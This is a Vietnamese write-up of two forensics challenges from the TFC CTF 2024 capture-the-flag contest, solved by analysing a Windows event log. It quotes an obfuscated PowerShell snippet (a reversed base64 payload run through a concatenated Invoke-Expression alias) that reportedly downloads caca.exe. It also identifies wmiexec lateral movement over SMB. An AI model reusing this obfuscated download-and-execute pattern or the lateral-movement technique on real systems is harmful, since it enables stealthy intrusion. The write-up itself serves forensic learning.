

# TFC CTF 2024.
### I. HE DID WHAT!?
- Chall này cho ta 1 file `.evtx` và ta cần phải tìm kiếm cờ trong đó. Bởi vì không có 1 thông tin nào cả nên mình cứ mò thì thấy được cái ni.

- Nó cho ta thông tin về 1 file `caca.exe` đang thực hiện 1 lệnh PowerShell , và các dòng sau cũng cho ta đầy đủ các lệnh đó là gì.
```
VHEEVH}x3uwcnad6u3eac3pvaj6tf
$SCr = [SyStem.TexT.encODINg]::uTF8.GeTsTrInG([SYSteM.coNVErT]::froMBaSe64STrinG("$w9r4pBoZlnfIzH1keCtX")) ;
$uqR = "i"+"N"+"V"+"o"+"k"+"e"+"-"+"E"+"X"+"p"+"r"+"E"+"S"+"S"+"i"+"O"+"n" ; NEW-aLIaS -naME pWN -VaLuE $uqR -FORCe ; PWN $SCr ;
$FBtFFDr8NXp5 = "=oQDiUGel5SYjF2YiASZslmR0V3TtASKpkiI90zZhFDbuJGc5MEZoVzQilnVIRWe5cUY6lTeMZTTINGMShUYigyZulmc0NFN2U2chJUbvJnR6oTX0JXZ252bD5SblR3c5N1WocmbpJHdTRXZH5COGRVV6oTXn5Wak92YuVkL0hXZU5SblR3c5N1WoASayVVLgQ3clVXclJlYldVLlt2b25WS" ;
$w9r4pBoZlnfIzH1keCtX = $FBtFFDr8NXp5.ToCharArray() ; [array]::Reverse($w9r4pBoZlnfIzH1keCtX) ; -join $w9r4pBoZlnfIzH1keCtX 2>&1> $null ;
```
- Đây là Tổng hợp các lệnh cũng khá dễ hiểu khi ta có biến `$FBtFFDr8NXp5` có dữ liệu là đoạn base đã bị reverse, sử dụng `Cyber Chef` decode thì nó tiếp tục ra 1 đoạn base nữa.

- Decode 1 lân nữa ta được 1 URL để tải về con `caca.exe` đó.

- Sử dụng `DotPeek` để xem source bên trong file exe này thì nó chỉ thực hiện việc mã hóa 1 flag fake bằng cách nâng giá trị `ASCII` của từng chữ cái lên 2 đơn vị.

- KHi chạy thử script đó thì chuỗi fake flag đó thành `VHEEVH}hcmgahnciajcjc` ta có thể dễ dạng nhận ra script PowerShell cũng có 1 đoạn tương tự là `VHEEVH}x3uwcnad6u3eac3pvaj6tf` Vậy ta chỉ cần mã hóa ngược là sẽ có flag.
```
def decode(encoded_str):
    decoded_str = ""
    for char in encoded_str:
        decoded_str += chr(ord(char) - 2)
    return decoded_str

encoded_str = "VHEEVH}x3uwcnad6u3eac3pvaj6tf"
decoded_str = decode(encoded_str)
print("Decoded string:", decoded_str)

```
- Sử dụng script trên decode là ra flag hoi.
```
$ python3 a.py 
Decoded string: TFCCTF{v1sual_b4s1c_a1nt_h4rd
```

*`FLAG: TFCCTF{v1sual_b4s1c_a1nt_h4rd}`*

### II. SM WHAT!?.
```
Description:
    An attacker managed to gain foothold in our network, but we managed to capture the connection to our server. Analyze the file and identify the tool used to connect, the service it connected to, its IP address, and the shared resources folder. Flag format: TFCCTF{tool_service_ip_share} Example: TFCCTF{ntlmrelayx_rdp_192.168.0.1_logs$} Note: The flag is in all lowercase (except for TFCCTF).
```
- Chall này cũng thế ta cũng sẽ sử dụng file `.evtx` vừa rồi nhưng lần này ta cần tìm kiếm thông tin để có được flag.
- Mình có mò 1 hồi thì có kiếm được 1 Task cho ta biết file được gửi đi chính là `admin$`.

- Để tìm kiếm 1 công cụ nào đó được sử dụng ta có thể tìm Task là `Process Creation` ta có thể dễ dàng nhận ra IP được gửi đến là `127.0.0.1` và tiến trình được sử dụng là `WmiPrvSE.exe` từ đây đã có thể chắc chắn rằng attacker đã sử dụng Tool `wmiexec` để tấn công. Bạn có thể đọc thêm về [Impacket Wmiexec](https://www.crowdstrike.com/blog/how-to-detect-and-prevent-impackets-wmiexec/).

- Từ tool đó ta có thể chắc chắn rằng service được sử dụng là `SMB` bởi vì folder `admin$` được mặc định gửi trên `SMB`và nó bị ràng buộc bởi `C:/Windows`

*`FLAG: TFCCTF{wmiexec_smb_127.0.0.1_admin$}`*